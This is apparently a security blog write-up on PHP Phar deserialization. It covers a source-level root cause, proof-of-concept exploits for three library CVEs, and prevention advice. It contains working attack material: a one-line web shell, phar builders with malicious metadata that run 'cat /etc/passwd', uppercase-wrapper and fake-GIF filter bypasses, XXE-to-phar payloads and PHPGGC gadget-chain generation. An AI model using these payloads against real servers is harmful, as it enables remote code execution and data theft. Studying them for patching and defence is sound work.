

## Introduction

**Phar Deserialization** is a popular bug related to file upload vulnerability and unsafe object deserialization. While this issue is mostly resolved in the latest PHP versions, some functions can still trigger it and pose a risk to our server.

### Phar

**PHAR - PHP Archive** are like JARs of Java but for PHP, compatible with 3 formats (Phar, Tar, Zip). In other words, PHAR is a form of compressing PHP application into a single executable file. A Phar file can be loaded using phar wrapper phar:// . For example: `phar://relative/path/to/phar/file.xyz/.inc`. A Phar file consists of 4 parts:

* Stub: The first part includes PHP code, ending with **__HALT_COMPILER();**
* Manifest: The manifest details the contents of the archive (**object** type)
* File Contents: The original files that are included in the archive
* Signature: A hash verifying the PHAR integrity


This is the detailed structure of this manifest


Manifest structure of the above phar file: 


So there is a serialized object in metadata. We should keep an eye on it.


### How to make a phar file

A simple template to make a Phar file is

```php
<?php
class User {
	public $name = "winky";
	public $age = 18;
}
$obj = new User();
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();
?>
```

In this code, stub is `<?php __HALT_COMPILER(); ?>`, manifest or Phar Metadata is $obj (new User class) and file contents is text from test.txt file. Now we can build it with a simple command:

`php -d phar.readonly=0 phar.php`

What is phar.readonly ? For security, this setting will allow us to create and modify using phar stream, by default this is enable: [phar.readonly option](https://www.php.net/manual/en/phar.configuration.php#:~:text=the%20configuration%20directives.-,phar.readonly%20bool,-This%20option%20disables)

### File upload vulnerability

File upload vulnerability or [CWE-434](https://cwe.mitre.org/data/definitions/434.html) is a common weakness in a web server. A user may upload unexpected or non-standard files, which can alter the server’s behavior and potentially lead to serious issues such as Remote Code Execution (RCE). POC:

A user can upload a simple shell if the server don't strictly filter it

```php
<?php
system($_GET["cmd"]);
?>
```

And we can run php file in apache server


### Insecure Deserialization

Insecure Deserialization or [CWE-502](https://cwe.mitre.org/data/definitions/502.html) covers insecure deserialization of untrusted data. Attackers can manipulate serialized objects to execute arbitrary code, especially using magic methods like __wakeup(), __destruct(), and __toString().

POC:

Imagine we have a simple class that will create a JSON file based on the $name argument passed to the class.

```php
<?php
class User{
    private $name;
    private $age;
    private $func = "touch";
    function __construct($name, $age){
        $this->name = $name;
        $this->age = $age;
    }
    function __destruct(){
        call_user_func( $this->func, 'user/'.$this->name.'.json' );
    }
}

$a = new User('winky', 18);
?>
```


By using unserialize() function we can override $func and $name thereby get RCE

```php
<?php

class User{
    public $name = "; cat /etc/passwd ;";
    public $age;
    public $func = "system";
}

$ser = new User();
echo serialize($ser);
// O:4:"User":3:{s:4:"name";s:19:"; cat /etc/passwd ;";s:3:"age";N;s:4:"func";s:6:"system";}
?>
```


## Phar Deserialization

### How it works ?

Remember the serialized metadata in phar manifest ? So what if we put a malicious object and deserialize it ? In PHP <= 7.4, many file-related functions will automatically deserialize a Phar's metadata if accessed via phar://. Those functions are 


and move_uploaded_file, mime_content_type, readgzfile, md5_file, gzopen, gzfile, etc.

### POC 

If I use the previous context and create a PHAR file like:

```php
<?php

class User{
    public $name = "; cat /etc/passwd ;";
    public $age;
    public $func = "system";
}

$obj = new User();
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();

?>
```

You can use one of the functions mentioned above to trigger it — for example, filesize()

PHP8:


PHP7.4:


=> So this bug is still present in PHP 7.4 and has been fixed in PHP 8.

### Root cause

File accessed functions like filesize, file_get_contents, file_exist use those macros to open wrapper

```bash
root@8cf4041156a5:~/php-src# grep "define php_stream_open_wrapper" main/php_streams.h 
#define php_stream_open_wrapper_rel(path, mode, options, opened) _php_stream_open_wrapper_ex((path), (mode), (options), (opened), NULL STREAMS_REL_CC)
#define php_stream_open_wrapper_ex_rel(path, mode, options, opened, context) _php_stream_open_wrapper_ex((path), (mode), (options), (opened), (context) STREAMS_REL_CC)
#define php_stream_open_wrapper(path, mode, options, opened)    _php_stream_open_wrapper_ex((path), (mode), (options), (opened), NULL STREAMS_CC)
#define php_stream_open_wrapper_ex(path, mode, options, opened, context)        _php_stream_open_wrapper_ex((path), (mode), (options), (opened), (context) STREAMS_CC)
```

We can find it in many php functions

```bash
root@8cf4041156a5:~/php-src# grep "php_stream_open_wrapper" ext/standard/file.c
        md.stream = php_stream_open_wrapper(filename, "rb",
        stream = php_stream_open_wrapper_ex(filename, "rb",
        stream = php_stream_open_wrapper_ex(filename, mode, ((flags & PHP_FILE_USE_INCLUDE_PATH) ? USE_PATH : 0) | REPORT_ERRORS, NULL, context);
        stream = php_stream_open_wrapper_ex(filename, "rb", (use_include_path ? USE_PATH : 0) | REPORT_ERRORS, NULL, context);
        stream = php_stream_open_wrapper_ex(filename, mode, (use_include_path ? USE_PATH : 0) | REPORT_ERRORS, NULL, context);
        stream = php_stream_open_wrapper_ex(filename, "rb", (use_include_path ? USE_PATH : 0) | REPORT_ERRORS, NULL, context);
        srcstream = php_stream_open_wrapper_ex(src, "rb", src_flg | REPORT_ERRORS, NULL, ctx);
        deststream = php_stream_open_wrapper_ex(dest, "wb", REPORT_ERRORS, NULL, ctx);
```

When a phar:// wrapper is opened, it attempts to parse its metadata and uses a function called [php_var_unserialize](https://github.com/php/php-src/blob/PHP-7.4.33/ext/phar/phar.c#L621)

```c
int phar_parse_metadata(char **buffer, zval *metadata, uint32_t zip_metadata_len) /* {{{ */
{
	php_unserialize_data_t var_hash;

	if (zip_metadata_len) {
		const unsigned char *p;
		unsigned char *p_buff = (unsigned char *)estrndup(*buffer, zip_metadata_len);
		p = p_buff;
		ZVAL_NULL(metadata);
		PHP_VAR_UNSERIALIZE_INIT(var_hash);

		if (!php_var_unserialize(metadata, &p, p + zip_metadata_len, &var_hash)) {
			efree(p_buff);
			PHP_VAR_UNSERIALIZE_DESTROY(var_hash);
			zval_ptr_dtor(metadata);
			ZVAL_UNDEF(metadata);
			return FAILURE;
		}
		efree(p_buff);
		PHP_VAR_UNSERIALIZE_DESTROY(var_hash);

		if (PHAR_G(persist)) {
			/* lazy init metadata */
			zval_ptr_dtor(metadata);
			Z_PTR_P(metadata) = pemalloc(zip_metadata_len, 1);
			memcpy(Z_PTR_P(metadata), *buffer, zip_metadata_len);
			return SUCCESS;
		}
	} else {
		ZVAL_UNDEF(metadata);
	}

	return SUCCESS;
}
```

## CVE-2023-28115 and CVE-2023-41330

Both CVEs have a high score of 9.8 according to Snyk.


### knplabs/knp-snappy

This is a PHP library for converting an HTML website to a PDF file. We can use this library like this:

```php
<?php

require __DIR__ . '/vendor/autoload.php';

use Knp\Snappy\Pdf;

$snappy = new Pdf('/usr/local/bin/wkhtmltopdf');
$snappy->generateFromHtml('<h1>Hello</h1>', 'a.pdf');
```

### Vulnerable function

From version 1.4.1 and earlier, the generateFromHtml() function calls ([file_exist function in Snappy](https://github.com/KnpLabs/snappy/blob/5126fb5b335ec929a226314d40cd8dad497c3d67/src/Knp/Snappy/AbstractGenerator.php#L670)). We need to see the source code of generateFromHtml:

```php
public function generateFromHtml($html, $output, array $options = [], $overwrite = false)
{
$fileNames = [];
if (\is_array($html)) {
    foreach ($html as $htmlInput) {
        $fileNames[] = $this->createTemporaryFile($htmlInput, 'html');
    }
} else {
    $fileNames[] = $this->createTemporaryFile($html, 'html');
}

$this->generate($fileNames, $output, $options, $overwrite);
}
```

This calls the generate() method:

```php
public function generate($input, $output, array $options = [], $overwrite = false)
{

    $this->prepareOutput($output, $overwrite);

    $command = $this->getCommand($input, $output, $options);

...
```

Here, $output is passed to prepareOutput(), which contains:

```php
protected function prepareOutput($filename, $overwrite)
{
    $directory = \dirname($filename);

    if ($this->fileExists($filename)) {
        if (!$this->isFile($filename)) {
            throw new InvalidArgumentException(\sprintf('The output file \'%s\' already exists and it is a %s.', $filename, $this->isDir($filename) ? 'directory' : 'link'));
        }
        if (false === $overwrite) {
            throw new FileAlreadyExistsException(\sprintf('The output file \'%s\' already exists.', $filename));
        }
        if (!$this->unlink($filename)) {
            throw new RuntimeException(\sprintf('Could not delete already existing output file \'%s\'.', $filename));
        }
    } elseif (!$this->isDir($directory) && !$this->mkdir($directory)) {
        throw new RuntimeException(\sprintf('The output file\'s directory \'%s\' could not be created.', $directory));
    }
}
```

And the fileExists() method internally calls PHP’s native file_exists() function


file_exists is called and it's one of the file accessed function above. So, what happens if we pass a phar:// wrapper stream to it?

### POC

This bug requires PHP 7.4. Using the previous context, we can write vulneable code like this:

```php
<?php
class User{
    private $name;
    private $age;
    private $func = "touch";
    function __construct($name, $age){
        $this->name = $name;
        $this->age = $age;
    }
    function __destruct(){
        call_user_func( $this->func, 'user/'.$this->name.'.json' );
    }
}

require __DIR__ . '/vendor/autoload.php';

use Knp\Snappy\Pdf;

$snappy = new Pdf('/usr/bin/wkhtmltopdf');
try{
    $snappy->generateFromHtml('<h1>Hello</h1>', 'phar://test.phar');
}catch(\Exception $e){}
?>
```


### Is it fixed?

This patch was committed on the version 1.4.2 to fix CVE-2023-28115: [CVE-2023-28115 fix](https://github.com/KnpLabs/snappy/commit/1ee6360cbdbea5d09705909a150df7963a88efd6). Now prepareOutput function will checks if phar:// is in filename or not


But the bug is still there. This is because the wrapper scheme is case-insensitive, according to [RFC 3986](https://datatracker.ietf.org/doc/html/rfc3986#section-6.2.2.1) Therefore, we can use an uppercase wrapper — for example, PHAR://.


If the vulnerable code uses strpos() for wrapper checks without normalizing the case, the check becomes bypassable. So, using PHAR:// instead of phar:// allows us to bypass the filter.

POC:

```php
<?php

...

use Knp\Snappy\Pdf;

$snappy = new Pdf('/usr/bin/wkhtmltopdf');
try{
    $snappy->generateFromHtml('<h1>Hello</h1>', 'PHAR://test.phar');
}catch(\Exception $e){}
?>
```


And this is CVE-2023-41330. After that a commit to use parse_url on version 1.4.3 have fixed both above CVE

[CVE-2023-41330 fix](https://github.com/KnpLabs/snappy/commit/d3b742d61a68bf93866032c2c0a7f1486128b67e)

## CVE-2024-34515


### image-optimizer

[image-optimizer](https://github.com/spatie/image-optimizer) is a PHP library for optimizing images, especially if they are large. The simple syntax is:

```php
<?php
require __DIR__ . '/vendor/autoload.php';

use Spatie\ImageOptimizer\OptimizerChainFactory;

$optimizerChain = OptimizerChainFactory::create();

$pathToImage = "./a.png";

$optimizerChain->optimize($pathToImage);
?>
```

### Vulnerable function

From version 1.7.2 and earlier, the optimize() function uses this function to check whether the image exists. [file_exists in image-optimizer version 1.7.2](https://github.com/spatie/image-optimizer/blob/62f7463483d1bd975f6f06025d89d42a29608fe1/src/Image.php#L13). We will look at optimize() in OptimizerChain.php

```php
public function optimize(string $pathToImage, string $pathToOutput = null)
{
    if ($pathToOutput) {
        copy($pathToImage, $pathToOutput);

        $pathToImage = $pathToOutput;
    }

    $image = new Image($pathToImage);

    $this->logger->info("Start optimizing {$pathToImage}");

    foreach ($this->optimizers as $optimizer) {
        $this->applyOptimizer($optimizer, $image);
    }
}
```

It will create an object Image based on $pathToImage which we are able to manipulate. And this is Image class

```php
class Image
{
    protected $pathToImage = '';

    public function __construct(string $pathToImage)
    {
        if (! file_exists($pathToImage)) {
            throw new InvalidArgumentException("`{$pathToImage}` does not exist");
        }

        $this->pathToImage = $pathToImage;
    }

...
```

We can see file_exists when we create an Image object and it also triggers phar deserialization.

### POC

```php
<?php
class User{
    private $name;
    private $age;
    private $func = "touch";
    function __construct($name, $age){
        $this->name = $name;
        $this->age = $age;
    }
    function __destruct(){
        call_user_func( $this->func, 'user/'.$this->name.'.json' );
    }
}

require __DIR__ . '/vendor/autoload.php';

use Spatie\ImageOptimizer\OptimizerChainFactory;

$optimizerChain = OptimizerChainFactory::create();

$optimizerChain->optimize("phar://test.phar");
?>
```

There are lots of warnings, but it still results in RCE on the server.


### Fixing

Version 1.7.3 of this library fixes this CVE by using regex to split url and allowes only file:// protocol [CVE-2024-34515](https://github.com/spatie/image-optimizer/blob/d4f0d09c44700c78d1718cd40da404b1c800b935/src/Image.php#L10)

```php
class Image
{
    protected $pathToImage = '';
    protected const ALLOWED_PROTOCOLS = ['file'];

    protected const WINDOWS_LOCAL_FILENAME_REGEX = '/^[a-z]:(?:[\\\\\/]?(?:[\w\s!#()-]+|[\.]{1,2})+)*[\\\\\/]?/i';

public function __construct(string $pathToImage)
{
    if (! $this->isProtocolAllowed($pathToImage)) {
        throw new InvalidArgumentException(\sprintf('The output file scheme is not supported. Expected one of [\'%s\'].', \implode('\', \'', self::ALLOWED_PROTOCOLS)));
    }

    if (! file_exists($pathToImage)) {
        throw new InvalidArgumentException("`{$pathToImage}` does not exist");
    }

    $this->pathToImage = $pathToImage;
}
```

### Challenge

I also made a challenge related to this CVE and uploaded it in Dreamhack: [optimizer](https://dreamhack.io/wargame/challenges/2166)

## Phar image?

Phar deserialization in PHP does not depend on the file extension. That means even if we rename a .phar file, the vulnerability still works.

POC:


However, you can't use a file without a proper extension (e.g., test, abc, or test,abc), because PHP functions like pathinfo() rely on file extensions to determine behavior.

`Rename the file with a valid image extension (like .gif, .png, etc.) while keeping the internal structure as a Phar. => Bypass the pathinfo() function`

We can also bypass mime_content_type() checks by adding fake image magic bytes (e.g., for a GIF file) in the Phar stub. Here's how:

```php
$obj = new User();
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("GIF89A<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($obj);
$phar->stopBuffering();
```



`Add appropriate magic bytes to fool MIME detection. => Bypass the mime_content_type() function`

## XXE to Phar deserialization

Imagine that you have XXE error but you can only read local files(LFI). However, with file upload and phar deserialization you can get ... RCE. These are some cases to exploit

```php
$xml = '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "phar://test.phar">]><root>&xxe;</root>';

$data = simplexml_load_string($xml, "SimpleXMLElement", LIBXML_NOENT);
```

```php
$xml = '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "phar://test.phar">]><root>&xxe;</root>';

$data = new SimpleXMLElement($xml, 2, 0);
```

```php
$xml = '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "phar://test.phar">]><root>&xxe;</root>';

$dom = new DOMDocument();
$dom->loadXML($xml,LIBXML_NOENT);
```

### POC


### Root cause

In PHP’s libxml extension, during request initialization (PHP_RINIT_FUNCTION(libxml)), the XML parser is configured to use php_libxml_input_buffer_create_filename for handling file accesses:

```c
static PHP_RINIT_FUNCTION(libxml)
{
	if (_php_libxml_per_request_initialization) {
		/* report errors via handler rather than stderr */
		xmlSetGenericErrorFunc(NULL, php_libxml_error_handler);
		xmlParserInputBufferCreateFilenameDefault(php_libxml_input_buffer_create_filename);
		xmlOutputBufferCreateFilenameDefault(php_libxml_output_buffer_create_filename);
	}
```

When an XML document references an external resource, the parser calls:

```c
php_libxml_input_buffer_create_filename(const char *URI, xmlCharEncoding enc)
{
	xmlParserInputBufferPtr ret;
	void *context = NULL;

	if (LIBXML(entity_loader_disabled)) {
		return NULL;
	}

	if (URI == NULL)
		return(NULL);

	context = php_libxml_streams_IO_open_read_wrapper(URI);

	if (context == NULL) {
		return(NULL);
	}
    
    
    ...
```

This function opens the target URI via:

```c
static void *php_libxml_streams_IO_open_read_wrapper(const char *filename)
{
	return php_libxml_streams_IO_open_wrapper(filename, "rb", 1);
}
```

And it calls php_libxml_streams_IO_open_wrapper. Now the ret_val use php_stream_open_wrapper_ex to extract the wrapper and if we pass phar:// to it deserialization happens

```c
static void *php_libxml_streams_IO_open_wrapper(const char *filename, const char *mode, const int read_only)
{
	php_stream_statbuf ssbuf;
	php_stream_context *context = NULL;
	php_stream_wrapper *wrapper = NULL;
	char *resolved_path;
    
    
        ...
        
        ret_val = php_stream_open_wrapper_ex(path_to_open, (char *)mode, REPORT_ERRORS, NULL, context); 
        
        ...
        
        return ret_val;
}
```


## Phar deserialization and gadget chains

This bug still works in PHP 7.4 so can be combined with vulnerabilities in older libraries like Monolog, Laravel, Symfony, etc. Those libraries often contain gadget chains that can be abused for RCE via deserialization.You can find a collection of known gadget chains here: https://github.com/ambionics/phpggc

How to Exploit Phar Deserialization with PHPGGC ? 

### Using the CLI tool 

* First, clone the phpggc repository:
* Next, generate a Phar file with a gadget chain using this command
`phpggc -f Monolog/RCE1 exec 'touch pwned' -p phar -o exploit.phar`
* Now you can work with it


You can notice that there are two files was created exploit.phar and pwned 

### Manually

* Choose your gadget chain, for example [monolog/RCE1](https://github.com/ambionics/phpggc/tree/master/gadgetchains/Monolog/RCE/1)
* Use both files chain.php and gadgets.php in directory
* Update chain.php to the following:

```php
<?php

require './gadgets.php';

function generate(array $parameters)
{
    $function = $parameters['function'];
    $parameter = $parameters['parameter'];

    return new \Monolog\Handler\SyslogUdpHandler(
        new \Monolog\Handler\BufferHandler(
            ['current', $function],
            [$parameter, 'level' => null]
        )
    );
}

$p = array();
$p['function'] = 'system';
$p['parameter'] = 'cat /etc/passwd';
$obj = generate($p);

$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();
```

Now use `php -d phar.readonly=0 chain.php` to create phar file and you will get RCE


## Phar Stub Bypass with gzip

This exploit still works in PHP 8 and does not involve deserialization.

Remember stub? It’s the PHP code at the beginning of a Phar archive that ends with __HALT_COMPILER();. So what if we inject PHP code before it ?

```php
<?php

$obj = 1;
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php system("cat /etc/passwd"); __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();

?>
```

So it still works to run PHP code


But what if we gzip this file ??


Yeah it keeps working. 

How about gzip of gzip ????


This is really cool. So we can use this to include and run php code without `<?php?>` tag

## Fixing

Starting from PHP 8, this Phar deserialization bug is no longer exploitable in the same way. https://www.php.net/manual/en/migration80.incompatible.php#migration80.incompatible.phar

Pull Request for the fix: [php/php-src#5855](https://github.com/php/php-src/pull/5855/commits/28417b781c5f112c667b596957289f752ee99259). They use phar_metadata_tracker to track when deserialization needed.

However, the Phar::getMetadata() function still performs unserialize() on the internal metadata — so you must be careful when using this function, especially with user-controlled input.


## Prevention

+ Upgrade to PHP8
+ Filter and validate stream wrappers
+ Be careful when work with Phar::getMetadata() function
+ Harden file upload locations
+ Set phar.readonly = 1 in php.ini

## References

* https://nhienit.wordpress.com/2020/12/12/khai-thac-lo-hong-phar-deserialize/
* https://sec.vnpt.vn/2019/08/ky-thuat-khai-thac-lo-hong-phar-deserialization
* https://blog.efiens.com/post/doublevkay/xxe-to-phar-deserialization/
* https://srcincite.io/assets/out-of-hand-attacks-against-php-environments.pdf
* https://www.synacktiv.com/ressources/modern_php_security_sec4dev.pdf
* https://www.sonarsource.com/blog/phpbb3-phar-deserialization-to-remote-code-execution/
